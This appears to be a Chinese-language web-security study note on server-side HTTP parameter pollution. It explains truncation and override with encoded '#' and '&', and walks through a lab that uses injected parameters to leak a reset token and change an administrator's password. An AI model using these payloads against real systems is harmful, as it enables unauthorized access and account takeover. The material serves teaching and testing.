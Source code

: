 ### HTTP 参数污染

当用户通过浏览器访问网站时，Web 服务器可能直接将用户输入参数嵌入到内部 API 请求中。攻击者通过注入特殊字符可：

- 覆盖现有参数
- 修改应用行为
- 访问未授权数据

### 测试方法

原始请求

```
GET /userSearch?name=peter&back=/home
```

攻击操作

```
注入 URL 编码的 #：
GET /userSearch?name=peter%23foo&back=/home
```

内部 API 请求

```
GET /users/search?name=peter#foo&publicProfile=true

井号后内容被截断，实际只发送 ?name=peter
```

结果分析

- 返回用户 `peter` 信息 → 截断成功（`publicProfile=true` 被移除）
- 返回错误 `Invalid name` → 截断失败

关键：`#` 必须 URL 编码为 `%23`，否则浏览器会直接忽略。

### 注入参数（使用 `&`）

攻击操作

```
注入 &：
GET /userSearch?name=peter%26foo=xyz&back=/home
```

内部 API 请求

```
GET /users/search?name=peter&foo=xyz&publicProfile=true
```

结果分析

响应无变化 → 参数注入成功但被忽略

### 覆盖参数（同名参数注入）

攻击操作

```
注入同名参数：
GET /userSearch?name=peter%26name=carlos&back=/home
```

内部 API 请求

```
GET /users/search?name=peter&name=carlos&publicProfile=true
```

结果差异

| 技术    | 行为             | 结果          |
| :------ | :--------------- | :------------ |
| PHP     | 使用最后一个参数 | 搜索 `carlos` |
| ASP.NET | 合并参数         | 报错          |
| Node.js | 使用第一个参数   | 搜索 `peter`  |

### 实验

```
# 请求参数
username=administrator%23
username=administrator#

# 响应
{"error": "Field not specified."}

# 推测井号截断导致 api 服务器拼接的 field 参数被忽略，说明其服务器额外添加了 field 参数
```

![image-20250511171245452](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511171245452.png)

```
# 请求参数
username=administrator%26field%3dx%23
# 响应
{"type":"ClientError","code":400,"error":"Invalid field."}

说明我们注入的 field 参数被解析。
```

这里推测 field 是后端 api 服务器用于处理的一个功能场景，直接使用 burp 自带的服务端变量名称爆破。

![image-20250511171840503](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511171840503.png)

发现两个返回 200 的：

![image-20250511171924302](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511171924302.png)

![image-20250511171931092](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511171931092.png)

所以这在内部可能是一个用于获取用户信息的 api 接口，系统通过修改密码 forgotPassword 页面，将它暴露在外。如果能通过此页面注入 HTTP 参数，很可能出现未授权查询。

![image-20250511173016502](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511173016502.png)

使用此 reset_token 修改管理员密码。

![image-20250511173055255](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/API%20%E6%BC%8F%E6%B4%9E/images/image-20250511173055255.png)
